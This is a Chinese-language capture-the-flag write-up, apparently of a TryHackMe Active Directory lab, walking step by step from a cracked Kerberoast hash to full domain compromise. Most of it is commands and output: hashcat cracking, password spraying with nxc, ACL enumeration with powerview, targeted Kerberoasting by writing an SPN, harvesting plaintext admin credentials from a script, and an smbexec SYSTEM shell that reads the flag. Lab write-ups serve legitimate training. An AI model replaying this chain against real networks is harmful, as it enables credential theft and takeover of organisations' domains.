72b317f4a7947bd9c01506ef8a4939236359e640b405360129c664e9ff006784635e211a1a9f894bfa26b0541740578929d7052537d044f2174cc7ebb86d9b5e535981b5cc77ec1c846bbf0d0fff97febd7c02889b36a3af758b04c64d3db890e6870f3451b4c810bb7b5c3966a89ed4d562e35cafe8e0aca27a6fd8b0ea78975753201416e23fc7390ca14f55b41a4e032d2c17edfcb95319a2eaa3106a41c7c8a3475d6cab6d630ff1525d528151705cf685462bb194b6ef7f76f156f18caf10a980ac9b8cd6f0ba11e3df89f1da6e3be1a07cf949fdde3ce6bb13d843e6c2fb816e0b9257b260ad544f83e92036ca65261791ffbade1151071901da5b609b6353086bb572bda36e3d017f281f12c936a0d58bb6d320a62e8fc9257fd8143a5bba7b59b6d6ad76e21a964bb7572dc93d9e58f943798653ccf5480a944565822e2d242c282f13433ac623abfa6577a79c40b5a4e36bb0ab26874
```

其中只有 CODY_ROY 的哈希可以被破解: `MKO)mko0`
```sh
[CODY_ROY hash]:MKO)mko0
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: ./h1
Time.Started.....: Sat Sep 12 18:35:02 2026 (1 sec)
Time.Estimated...: Sat Sep 12 18:35:03 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/opt/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#02........: 14474.1 kH/s (0.58ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/2 (50.00%) Digests (total), 1/2 (50.00%) Digests (new), 1/2 (50.00%) Salts
Progress.........: 28688768/28688768 (100.00%)
Rejected.........: 0/28688768 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#02..: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#02...: (Mouton -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.SMC.: Fan0: 0%, Fan1: 0%
Hardware.Mon.#02.: Util: 79% Pwr:434mW
```

# auth as CODY_ROY
```sh
root@ip-10-64-113-131:~/wrk# nxc smb thm.local -u 'CODY_ROY' -p 'MKO)mko0' --shares
SMB         10.64.152.237   445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:False) (Null Auth:True) (DC:True)
SMB         10.64.152.237   445    AD               [+] thm.local\CODY_ROY:MKO)mko0 
SMB         10.64.152.237   445    AD               [*] Enumerated shares
SMB         10.64.152.237   445    AD               Share           Permissions            Remark
SMB         10.64.152.237   445    AD               -----           -----------            ------
SMB         10.64.152.237   445    AD               ADMIN$                                 Remote Admin
SMB         10.64.152.237   445    AD               C$                                     Default share
SMB         10.64.152.237   445    AD               IPC$            READ                   Remote IPC
SMB         10.64.152.237   445    AD               NETLOGON        READ                   Logon server share 
SMB         10.64.152.237   445    AD               SYSVOL          READ                   Logon server share
```

凭据有效, 可以列出共享, 但没啥有趣的.

## pass spray
```sh
root@ip-10-64-113-131:~/wrk# nxc smb thm.local -u  ./users -p 'MKO)mko0' --continue-on-success > ps
SMB         10.64.152.237   445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:False) (Null Auth:True) (DC:True)
SMB                      10.64.152.237   445    AD               [+] thm.local\CODY_ROY:MKO)mko0 
SMB                      10.64.152.237   445    AD               [+] thm.local\ZACHARY_HUNT:MKO)mko0
```

`ZACHARY_HUNT` 使用了与 `CODY_ROY` 相同的密码

## perm analyse
我已经被 thm-attackbox 里的 bloodhound 使用体验气死了, 所以我决定返璞归真. 或许会在 beyond Adm 里记录一些别的?
### group map
```sh
root@ip-10-64-113-131:~/wrk# bloodyAD -d thm.local -u 'CODY_ROY' -p 'MKO)mko0' --dc-ip 10.64.152.237 --host thm.local  get  membership CODY_ROY
distinguishedName: CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-555
sAMAccountName: Remote Desktop Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

root@ip-10-64-113-131:~/wrk# bloodyAD -d thm.local -u 'CODY_ROY' -p 'MKO)mko0' --dc-ip 10.64.152.237 --host thm.local  get  membership ZACHARY_HUNT
distinguishedName: CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-555
sAMAccountName: Remote Desktop Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=thm,DC=local
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users
```
除去默认属于的 Users 和 DomainUsers 组, 二者都从属 `Remote Management Users` 以及 `Remote Desktop Users`, 可以使用 winrm 以及 rdp.

#### Domain Admins
这次用 `powerviwe.py`, `Powerview.ps1` 的 python 实现:
```sh
powerview thm.local/ZACHARY_HUNT:'MKO)mko0'@AD.thm.local
Logging directory is set to /root/.powerview/logs/thm
[2026-09-12 11:02:49] User ZACHARY_HUNT has adminCount attribute set to 1. Might be admin somewhere somehow :)
╭─LDAP─[ad.thm.local]─[THM\ZACHARY_HUNT]-[NS:<auto>]
╰─ ❯ Get-DomainGroupMember -Identity "Domain Admins"
GroupDomainName             : Domain Admins
GroupDistinguishedName      : CN=Domain Admins,CN=Users,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : BEVERLY_FARRELL
MemberDistinguishedName     : CN=BEVERLY_FARRELL,OU=AZR,OU=Tier 1,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1588

GroupDomainName             : Domain Admins
GroupDistinguishedName      : CN=Domain Admins,CN=Users,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : MARGARITO_HAMILTON
MemberDistinguishedName     : CN=MARGARITO_HAMILTON,OU=Tier 2,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1520

GroupDomainName             : Domain Admins
GroupDistinguishedName      : CN=Domain Admins,CN=Users,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : BRADLEY_ORTIZ
MemberDistinguishedName     : CN=BRADLEY_ORTIZ,OU=FSR,OU=Tier 1,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1358

GroupDomainName             : Domain Admins
GroupDistinguishedName      : CN=Domain Admins,CN=Users,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : SANFORD_DAUGHERTY
MemberDistinguishedName     : CN=SANFORD_DAUGHERTY,OU=Test,OU=GOO,OU=Tier 1,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1321

GroupDomainName             : Domain Admins
GroupDistinguishedName      : CN=Domain Admins,CN=Users,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : BERNARD_CARNEY
MemberDistinguishedName     : CN=BERNARD_CARNEY,OU=AZR,OU=Tier 1,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1248

GroupDomainName             : Domain Admins
GroupDistinguishedName      : CN=Domain Admins,CN=Users,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : Administrator
MemberDistinguishedName     : CN=Administrator,CN=Users,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-500
```

除去标准的 Administrator, 还有五个 Domain Admin:
- BEVERLY_FARRELL
- MARGARITO_HAMILTON
- BRADLEY_ORTIZ
- SANFORD_DAUGHERTY
- BERNARD_CARNEY

#### RDU
另外的高价值组是 `Remote Desktop Users`:
```sh
╭─LDAP─[ad.thm.local]─[THM\ZACHARY_HUNT]-[NS:<auto>]
╰─ ❯ Get-DomainGroupMember -Identity "Remote Desktop Users"
GroupDomainName             : Remote Desktop Users
GroupDistinguishedName      : CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : SUSANNA_MCKNIGHT
MemberDistinguishedName     : CN=SUSANNA_MCKNIGHT,OU=Test,OU=ITS,OU=Tier 1,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1475

GroupDomainName             : Remote Desktop Users
GroupDistinguishedName      : CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : ZACHARY_HUNT
MemberDistinguishedName     : CN=ZACHARY_HUNT,OU=Tier 2,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1423

GroupDomainName             : Remote Desktop Users
GroupDistinguishedName      : CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : SANFORD_DAUGHERTY
MemberDistinguishedName     : CN=SANFORD_DAUGHERTY,OU=Test,OU=GOO,OU=Tier 1,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1321

GroupDomainName             : Remote Desktop Users
GroupDistinguishedName      : CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : CHRISTIAN_SANFORD
MemberDistinguishedName     : CN=CHRISTIAN_SANFORD,OU=Tier 1,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1229

GroupDomainName             : Remote Desktop Users
GroupDistinguishedName      : CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : JERRI_LANCASTER
MemberDistinguishedName     : CN=JERRI_LANCASTER,OU=Tier 2,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1221

GroupDomainName             : Remote Desktop Users
GroupDistinguishedName      : CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local
MemberDomain                : thm.local
MemberName                  : CODY_ROY
MemberDistinguishedName     : CN=CODY_ROY,OU=Tier 2,DC=thm,DC=local
MemberSID                   : S-1-5-21-1966530601-3185510712-10604624-1144
```
共六个用户, 有趣的是其中 `SANFORD_DAUGHERTY` 同时属于 `Domain Admin` 组, 

### ACLs map
先看看有没有 quickwin:
```sh
Get-DomainObjectAcl -Identity "SANFORD_DAUGHERTY" -ResolveGUIDs -Where "SecurityIdentifier contains THM\CODY_ROY"  -Where "SecurityIdentifier contains THM\ZACHARY_HUNT"
Get-DomainObjectAcl -Identity "SUSANNA_MCKNIGHT" -ResolveGUIDs -Where "SecurityIdentifier contains THM\CODY_ROY"  -Where "SecurityIdentifier contains THM\ZACHARY_HUNT"
Get-DomainObjectAcl -Identity "CHRISTIAN_SANFORD" -ResolveGUIDs -Where "SecurityIdentifier contains THM\CODY_ROY"  -Where "SecurityIdentifier contains THM\ZACHARY_HUNT"
# none
╭─LDAP─[ad.thm.local]─[THM\ZACHARY_HUNT]-[NS:<auto>]
╰─ ❯ Get-DomainObjectAcl -Identity "JERRI_LANCASTER" -ResolveGUIDs -Where "SecurityIdentifier contains THM\CODY_ROY"  -Where "SecurityIdentifier contains THM\ZACHARY_HUNT"
ObjectDN                    : CN=JERRI_LANCASTER,OU=Tier 2,DC=thm,DC=local
ObjectSID                   : S-1-5-21-1966530601-3185510712-10604624-1221
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : None
ActiveDirectoryRights       : ReadControl,WriteProperties,ReadProperties,Self,ListChildObjects
AccessMask                  : ReadControl,WriteProperties,ReadProperties,Self,ListChildObjects
InheritanceType             : None
SecurityIdentifier          : THM\ZACHARY_HUNT

ObjectDN                    : CN=JERRI_LANCASTER,OU=Tier 2,DC=thm,DC=local
ObjectSID                   : S-1-5-21-1966530601-3185510712-10604624-1221
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : CONTAINER_INHERIT_ACE
ActiveDirectoryRights       : ReadControl,ReadProperties,ListChildObjects
AccessMask                  : ReadControl,ReadProperties,ListChildObjects
InheritanceType             : None
SecurityIdentifier          : THM\ZACHARY_HUNT
```
`ZACHARY_HUNT` 对`JERRI_LANCASTER` 有无限制的 WriteProperties, 可以理解为 GenericWrite.
GenericWrite的利用方式在 windows server 2025 前常见的共两种:
1. ShadowcCredential -> NTLM hash
2. TargetKerberoasting -> targets krb5hash

考虑到本机关闭了 winrm 以及 ntlm 的破解难度, 使用 TargetKerberoasting

# auth as ZACHARY_HUNT
## TargetKerberoasting 
TargetKerberoasting 简而言之就是写一个 spn:
```sh
╭─LDAP─[ad.thm.local]─[THM\ZACHARY_HUNT]-[NS:<auto>]
╰─ ❯ Set-DomainObject -Identity "JERRI_LANCASTER" -Set 'servicePrincipalname=HTTPS/AD.thm.local'
[2026-09-12 11:46:30] [Set-DomainObject] Success! modified attribute servicePrincipalname for CN=JERRI_LANCASTER,OU=Tier 2,DC=thm,DC=local
```

然后 kerberoasting:
```sh
root@ip-10-64-113-131:~/wrk# GetUserSPNs.py -request-user 'JERRI_LANCASTER' thm.local/ZACHARY_HUNT:'MKO)mko0'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name             MemberOf                                            PasswordLastSet             LastLogon                   Delegation 
--------------------  ---------------  --------------------------------------------------  --------------------------  --------------------------  ----------
HTTPS/AD.thm.local    JERRI_LANCASTER  CN=Reader Admins,OU=Grouper-Groups,DC=thm,DC=local  2024-05-13 19:20:51.535220  2024-05-13 19:22:39.622629             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JERRI_LANCASTER*$87b96ca7b57e5fbad58f4d369c0cf5ca$dd994dc710435d771f6ea9432e49de7b0236765920083c7ac6a50b8d598c94006449499c1c0c9267d1bfdf7f8b5e133501199b0cc43bd18429a5542f1df0bf77ab3d406cb5cf98650dcd41b4188d8f94dccede8ee4b4c17938577765270a5ac5894e96d2a235c3a87dae8f6729e31933d95300d6dff1879c086cdb75e5c25bb9bddd3bfa6c4cca547b31e952fca93a0b594abe7f34d816cfb9a0e89d01c12229e4757af3d2bc00e2cc3fb93ed4af0184cccd4801a8b0761cee75e0d1b6d5b8defab90795bef8c8ea4f08792844b311c037a2d400cce08f6f377d64791c85800b8a905fdbc9dc111dfa75cad748a46ace6ace72856890805defee084f21f5b4debd3e46a3d92fa2e80b027c25d8a9598931372619ea7c4bcba3f0dd9e59bdbf274c14872625d0086d8a03f7aa7825261052f072113a09c14cb323bdb148add006c266ea97e8b362ce02a8d19c1cf15650217bb6deb8a99ee4cca31dea60ed0d5f4ad44554312f45a65dd37a75ef38837cea01d198388c7caac18c8a2378e370b523a280133a9f3ff2b7c723d2c1d556f45b3a88455792aca80c68c20e17c494426cbf791ae9524ce2425837140314a7c139551f37bf111c4e6734f044662f15b8c172ec4e4781eeadf42df86c9f5e066252f6ee3744ee6df02d5c645252a708f9631ca174c8c4f2609b81dd603a06d0cb138d79ff14858b8515a94224b757bc3d94cb2daa154f56d1de769cc81e4fd0534f675e796754f65c9cbb1c452922bdc3be5eec4cf12c82da1554dd879d0ba7897ad15edf7a34b6d890214e6007fa5fb44acd6bec66faba14b130d89cf82d3615f86e41b465d09fae00d8d4d077dbcd82847710d174a67ade5cd3c07074072b84b78873f36aaf25b26d8b0c3b44b893b9f0bf050755b5d2849ebaf19f4664019c9fd34b22efddb62bef6a67e31d3b801ea764d577627030d89e8ea5f784c959a3c1e67d5e29967382e975e576bd50e373d52999dd9950375648ed8e5cfde8a254d1f034deed601555d8378198229f1169174b62f2f0c17e41e870832ffe8440650329b250c1c8e73d196827c2c3c7c5aad7f7ac45e03b10d7e19e427fe3b081af12eee315edb07c3a8c9ab7ce737dae5c31069aab2bf683eeb23a0857cc2d55ab4437171378c509ae5d2c859bee04c43444c5886c49a2b5f47ef1d54415d81560c0f9391f540b3c52300dddcdc17614cb853b247e7321369556c026e8bbf5a880563d54034bc5613a0813549d56b4a3144d46381a8fc7aaa5fba1eccbea91454ac66de297a54e7f3410f3e5c5a5472d37e849e63fac4d996f28891f00fbb1259601e7c4cec1ec8511d591801568e99e01b83d4fd4e99ea94c25a1b8405642fcbfe0f6fc10d40cf1a5a5f4f77584e72caa9b0e9a8ac08216442f78be398ddbdff4162f2a32a8c1d59678906646f5a3c800fb1c913f7597d4df8dfbf182bc858c2c31db286ec9d5e67960aa809f0e7a57849609ed78c393e168da90451e99e9715033624b192394
```

爆破:
```sh
$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/...:lovinlife!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JE...192394
Time.Started.....: Sat Sep 12 19:51:48 2026 (0 secs)
Time.Estimated...: Sat Sep 12 19:51:48 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/opt/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#02........: 17415.9 kH/s (0.60ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1245184/14344384 (8.68%)
Rejected.........: 0/1245184 (0.00%)
Restore.Point....: 622592/14344384 (4.34%)
Restore.Sub.#02..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#02...: magius -> swethy
Hardware.Mon.SMC.: Fan0: 0%, Fan1: 0%
Hardware.Mon.#02.: Util: 85% Pwr:207mW
```

# auth as JERRI_LANCASTER
根据前面的枚举我们知道该用户是 `Remote Desktop Users`
```sh
root@ip-10-64-113-131:~/wrk# xfreerdp /v:10.64.152.237 /u:JERRI_LANCASTER /p:'lovinlife!' /dynamic-resolution /clipboard
```

好像在用户环境变量配置上出了点问题, 使用 Win+R 手动开启:


翻找文件时发现 `C:\Scripts` 目录, 在里面找到 `syncer.psl`


其功能为对 `AD2` 主机进行 DCSync, 给出了一组凭据: `SANFORD_DAUGHERTY`:`RESET_ASAP123`; 根据前文的枚举, SANFORD_DAUGHERTY 用户是 DomainAdmin

那 Domain 中有 `AD2` 主机吗, 没有.
```sh
╭─LDAP─[ad.thm.local]─[THM\ZACHARY_HUNT]-[NS:<auto>]
╰─ ❯ Get-DomainComputer
objectClass                       : top
                                    person
                                    organizationalPerson
                                    user
                                    computer
cn                                : AD
distinguishedName                 : CN=AD,OU=Domain Controllers,DC=thm,DC=local
instanceType                      : 4
name                              : AD
objectGUID                        : {5365d9f5-a59e-40ae-9448-b3037206117c}
userAccountControl                : SERVER_TRUST_ACCOUNT
                                    TRUSTED_FOR_DELEGATION
badPwdCount                       : 3
badPasswordTime                   : 12/09/2026 10:42:10 (today)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 12/09/2026 10:30:45 (today)
pwdLastSet                        : 12/09/2026 10:30:00 (today)
primaryGroupID                    : 516
objectSid                         : S-1-5-21-1966530601-3185510712-10604624-1008
logonCount                        : 1268
sAMAccountName                    : AD$
sAMAccountType                    : SAM_MACHINE_ACCOUNT
operatingSystem                   : Windows Server 2019 Datacenter
dNSHostName                       : ad.thm.local
```
# auth as SANFORD_DAUGHERTY (Adm)
```sh
root@ip-10-64-113-131:~/wrk# nxc smb thm.local -u 'SANFORD_DAUGHERTY' -p 'RESET_ASAP123'
SMB         10.64.152.237   445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:False) (Null Auth:True) (DC:True)
SMB         10.64.152.237   445    AD               [+] thm.local\SANFORD_DAUGHERTY:RESET_ASAP123 (Pwn3d!)
root@ip-10-64-113-131:~/wrk# smbexec.py thm.local/'SANFORD_DAUGHERTY':'RESET_ASAP123'@AD.thm.local
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system


C:\Windows\system32>ipconfig 

Windows IP Configuration

Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::e63c:ee9e:bbe7:9e6d%4
   IPv4 Address. . . . . . . . . . . : 10.64.152.237
   Subnet Mask . . . . . . . . . . . : 255.255.192.0
   Default Gateway . . . . . . . . . : 10.64.128.1


C:\Windows\system32>dir C:\Users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

05/10/2024  02:46 PM    <DIR>          .
05/10/2024  02:46 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
05/10/2024  01:52 PM                59 flag.txt.txt
               3 File(s)          1,140 bytes
               2 Dir(s)  12,477,992,960 bytes free


C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt.txt
THM{INFILTRATION_WHAT_ARE_YOU_LOOKING_FOR_ASSERTS}
```